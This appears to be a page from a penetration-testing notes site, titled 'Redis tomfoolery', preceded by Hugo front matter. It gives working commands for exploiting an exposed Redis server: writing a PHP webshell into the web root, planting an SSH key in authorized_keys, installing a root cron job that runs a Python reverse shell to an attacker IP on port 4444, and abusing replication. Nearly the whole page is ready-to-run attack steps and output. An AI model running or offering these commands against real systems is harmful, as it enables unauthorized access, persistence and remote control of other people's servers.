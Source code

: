 ```yaml
---
### The title for the content.
title : "Redis"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "redis"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "Redis tomfoolery."
### The datetime assigned to this page.
date : 2020-03-10T16:43:45+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "redis"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## Redis

### Webshell

You must know the path of the Web site folder:

```bash
root@machine:~# redis-cli -h 10.10.10.10
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

### SSH

1. Generate a ssh public-private key pair on your pc: ssh-keygen -t rsa
2. Write the public key to a file : (echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
3. Import the file into redis : cat foo.txt | redis-cli -h 10.85.0.52 -x set givshellplox
4. Save the public key to the authorized_keys file on redis server:

```bash
root@machine:~# redis-cli -h 10.10.10.10
10.85.0.52:6379> config set dir /home/user/.ssh/
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```

### Reverse shell Crontab

```bash
root@machine:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.10.10\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```

The last example is for Ubuntu, for Centos, the above command should be: redis-cli -h 10.85.0.52 config set dir /var/spool/cron/

### Master-Slave Module

Make our redis server master in the cluster. Make vuln server our slave.

```bash
redis-cli -h 10.10.10.10 -p 6379
slaveof 10.85.0.51 6379
```

```bash
redis-cli -h 10.10.10.11 -p 6379
set mykey hello
set mykey2 helloworld
```